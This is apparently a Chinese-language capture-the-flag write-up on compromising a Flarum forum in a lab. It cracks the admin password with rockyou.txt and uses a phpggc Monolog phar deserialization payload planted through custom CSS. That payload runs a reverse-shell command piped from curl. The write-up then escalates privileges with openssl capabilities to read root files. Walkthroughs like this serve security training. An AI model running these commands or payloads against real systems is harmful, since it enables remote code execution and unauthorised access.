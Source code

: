 flarum 论坛

![image-20230818143558400](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308181435429.png)

用户名为 `administrator` 或者 `administrator@xiaorang.lab`

草了, 密码用 **rockyou.txt** 跑了好一会, 结果是 `1chris`

然后参考 p 牛的文章

[https://tttang.com/archive/1714/](https://tttang.com/archive/1714/)

反弹 shell

```shell
./phpggc -p tar -b Monolog/RCE6 system "curl https://reverse-shell.sh/IP:Port | bash
```

编辑自定义 css

```css
step 1:
@import (inline) 'data:text/css;base64,[REDACTED]';

step 2:
.test {
    content: data-uri('phar://./assets/forum.css');
}
```

![image-20230818144939117](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308181449149.png)

这里网站根目录当前用户不可写, 所以改成了 assets 目录

http://39.99.157.184/assets/1.php

提权也在这卡了一会, SUID 没有什么可以利用的命令, 需要看 capabilities

[https://www.cnblogs.com/f-carey/p/16026088.html](https://www.cnblogs.com/f-carey/p/16026088.html)

```shell
getcap -r / 2>/dev/null
```

![image-20230818150106624](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308181501656.png)

利用 openssl 提权

```shell
cd /
openssl req -x509 -newkey rsa:2048 -keyout /tmp/key.pem -out /tmp/cert.pem -days 365 -nodes
openssl s_server -key /tmp/key.pem -cert /tmp/cert.pem -port 8081 -HTTP
```

flag01

```shell
curl --http0.9 -k "https://39.99.157.184:8081/root/flag/flag01.txt"
```

![image-20230818151038563](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308181510595.png)
